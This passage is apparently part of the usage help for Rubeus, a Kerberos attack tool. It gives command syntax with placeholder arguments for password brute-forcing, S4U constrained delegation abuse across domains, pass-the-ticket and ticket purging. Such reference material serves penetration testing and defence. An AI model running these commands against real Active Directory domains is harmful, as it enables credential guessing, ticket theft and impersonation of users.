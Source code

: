 ```powershell
        Rubeus.exe renew </ticket:BASE64 | /ticket:FILE.KIRBI> [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/autorenew] [/nowrap]



    Perform a Kerberos-based password bruteforcing attack:

        Rubeus.exe brute </password:PASSWORD | /passwords:PASSWORDS_FILE> [/user:USER | /users:USERS_FILE] [/domain:DOMAIN] [/creduser:DOMAIN\\USER & /credpassword:PASSWORD] [/ou:ORGANIZATION_UNIT] [/dc:DOMAIN_CONTROLLER] [/outfile:RESULT_PASSWORD_FILE] [/noticket] [/verbose] [/nowrap]





 Constrained delegation abuse:



    Perform S4U constrained delegation abuse:

        Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap]

        Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap]



    Perform S4U constrained delegation abuse across domains:

        Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER /targetdomain:DOMAIN.LOCAL /targetdc:DC.DOMAIN.LOCAL [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/nowrap]





 Ticket management:



    Submit a TGT, optionally targeting a specific LUID (if elevated):

        Rubeus.exe ptt </ticket:BASE64 | /ticket:FILE.KIRBI> [/luid:LOGINID]



    Purge tickets from the current logon session, optionally targeting a specific LUID (if elevated):

        Rubeus.exe purge [/luid:LOGINID]



    Parse and describe a ticket (service ticket or TGT):

        Rubeus.exe describe </ticket:BASE64 | /ticket:FILE.KIRBI>


```